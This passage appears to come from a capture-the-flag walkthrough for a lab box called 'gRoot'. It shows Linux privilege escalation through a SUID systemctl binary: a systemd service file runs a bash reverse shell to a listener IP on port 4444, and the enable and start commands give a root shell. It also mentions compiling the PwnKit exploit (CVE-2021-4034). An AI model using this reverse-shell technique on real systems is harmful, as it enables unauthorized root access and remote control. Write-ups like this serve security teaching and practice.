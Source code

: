 The permissions on **/bin/systemctl** show us that the SUID bit is set:

`ls -al /bin/systemctl`

```
-rwsr-xr-x 1 root root 663944 Apr  2  2021 /bin/systemctl
```

I find a post online that explains how you can create a service which will connect back to your home machine and since systemctl starts the service as root you get a root shell.

I create the following file: **/tmp/test.service**

```
[Unit]
Description=privilege escalation using SUID systemctl

[Service]  
Type=simple
User=root  
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.50.130.229/4444 0>&1'

[Install]
WantedBy=multi-user.target
```

Note: you'll need to change the IP address under ExecStart to your own systems IP.

I start a netcat listener up on my system with `nc -nvlp 4444`:

```
listening on [any] 4444 ...
```

I then enable the service with the following command:

`/bin/systemctl enable /tmp/test.service`

```
Created symlink from /etc/systemd/system/multi-user.target.wants/test.service to /tmp/test.service.
Created symlink from /etc/systemd/system/test.service to /tmp/test.service.
```

And then I start the service which connects back to our system and gives us a root shell:

`/bin/systemctl start test`

![](walkthroughs/Unpublished/gRoot/groot12.png)

---

### #6 - CVE-2021-4034 (AKA PwnKit)

I downloaded a copy of PwnKit from github to my ESA machine and compiled it, then transferred it over to the gRoot box and made it executable. When running the exploit you immediately get root:

![](walkthroughs/Unpublished/gRoot/groot13.png)

<br>

## Conclusion

There were many many ways to escalate privileges to root on this system and I had a lot of fun going through and finding as many as I could. I'm sure there are additional methods so go see if you can find any not listed here!